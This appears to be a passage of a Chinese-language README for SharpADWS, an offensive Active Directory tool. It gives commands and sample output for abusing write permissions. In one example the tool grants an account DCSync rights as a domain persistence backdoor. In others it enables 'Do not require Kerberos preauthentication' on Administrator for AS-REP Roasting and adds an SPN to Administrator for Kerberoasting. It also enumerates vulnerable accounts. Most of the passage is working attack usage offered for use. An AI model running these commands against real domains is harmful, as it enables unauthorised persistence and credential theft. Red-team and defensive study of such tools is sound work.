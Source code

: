 **需要注意的是，DCSync Method 的 `list` 必须依赖于已经通过 Cache Method 建立的映射缓存。**

此外，在拥有足够权限的情况下，您可以通过 `write` 为某个账户授予 DCSync 权限，以建立域持久性后门：

```cmd
C:\Users\Marcus>SharpADWS.exe DCSync -action write -target Marcus

[*] Account Marcus now has DCSync privieges on the domain.

```

### DontReqPreAuth

DontReqPreAuth method 的 `list` 能够查找出所有设置了 “Do not require kerberos preauthentication” 选项的账户，如下所示：

```cmd
C:\Users\Marcus>SharpADWS.exe DontReqPreAuth -action list

[*] Found users that do not require kerberos preauthentication:
[*]     CN=Bob,CN=Users,DC=corp,DC=local
[*]     CN=Alice,CN=Users,DC=corp,DC=local
[*]     CN=John,CN=Users,DC=corp,DC=local

```

此外，您可以滥用对目标账户 userAccountControl 属性的 WriteProperty 权限，通过  `write` 为该账户启用 “Do not require kerberos preauthentication”  选项，以执行 AS-REP Roasting 攻击：

```cmd
C:\Users\Marcus>SharpADWS.exe DontReqPreAuth -action write -target Administrator

[*] Set DontReqPreAuth for user Administrator successfully!

```

### Kerberoastable

Kerberoastable method 的 `list` 能够查找出所有设置了 SPN 的账户，如下所示：

```cmd
C:\Users\Marcus>SharpADWS.exe Kerberoastable -action list

[*] Found kerberoastable users:
[*] CN=krbtgt,CN=Users,DC=corp,DC=local
[*]     kadmin/changepw
[*] CN=Bob,CN=Users,DC=corp,DC=local
[*]     WWW/win-iisserver.corp.local/IIS
[*]     TERMSERV/win-iisserver.corp.local
[*] CN=John,CN=Users,DC=corp,DC=local
[*]     TERMSERV/WIN-SERVER2026

```

此外，您可以滥用对目标账户 servicePrincipalName 属性的 WriteProperty 权限，通过  `write` 为该账户（仅限于用户账户）添加一个 SPN，以执行 Kerberoasting 攻击：

```cmd
C:\Users\Marcus>SharpADWS.exe Kerberoastable -action write -target Administrator

[*] Kerberoast user Administrator successfully!

```

